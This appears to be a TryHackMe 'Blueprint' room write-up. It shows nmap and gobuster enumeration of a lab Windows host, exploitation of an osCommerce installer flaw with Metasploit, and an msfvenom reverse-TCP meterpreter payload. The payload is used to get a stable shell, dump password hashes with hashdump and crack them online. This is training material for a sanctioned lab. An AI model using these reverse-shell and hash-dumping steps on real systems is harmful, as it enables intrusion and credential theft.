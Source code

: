# Blueprint

[Link to room](https://tryhackme.com/room/blueprint)

###### Enumeration

echo machine-ip blueprint.com >> /etc/hosts

```nmap
# Nmap 7.80 scan initiated Thu Jun 18 03:21:05 2020 as: nmap -sC -sV -oN nmap.txt blueprint.com
Nmap scan report for blueprint.com (10.10.135.2)
Host is up (0.48s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 0s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:2c:8d:2f:12:fa (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-18T08:23:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-18T07:23:16
|_  start_date: 2020-06-18T07:17:16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 18 03:23:34 2020 -- 1 IP address (1 host up) scanned in 149.46 seconds
```

> I tried running `enum4linux` but could not get anything, `eternal blue` also does not work

> webserver on port 80 have nothing

> moving onto webserver on port 8080 

we see a website lets try use gobuster for directory brute-forcing

```bash
gobuster dir -u http://blueprint.com:8080/oscommerce-2.3.4/catalog/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
2020/06/18 03:47:51 Starting gobuster
===============================================================
/download (Status: 401)
/images (Status: 301)
/pub (Status: 301)
/Images (Status: 301)
/admin (Status: 301)
/includes (Status: 301)
/install (Status: 301)
/Download (Status: 401)
/ext (Status: 301)
/INSTALL (Status: 301)
/IMAGES (Status: 301)
/%20 (Status: 403)
/Admin (Status: 301)
/*checkout* (Status: 403)
```

checking the install page we see something fishy also we will get the `version of oscommerce`
now lets dig deep into this webserver and search for an exploit
```start metasploit and search oscommerce```

###### Exploitation
```
Exploit we use:
exploit/multi/http/oscommerce_installer_unauth_code_exec
set options
and run
we will get a meterpreter session 
but this session is not stable
```
So we will create a payload and upload it using the meterpreter session

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

```
open another tab and run metasploit
use handler and and run it
on the previous meterpreter session
run: 
execute -f shell.exe
and we will get a new meterpreter session that is stable
run:
hashdump
to look for hashes and crack them online using htts://crackstation.net
```

1. Lab user hash

> Lab:1000:aad3b435b51404eeaad3b435b51404ee:??????????????????????:::

> go????????

2. root flag

`navigate to C:\Users\Administrator\Desktop` cat the root flag

> THM{????????????????????9bee}
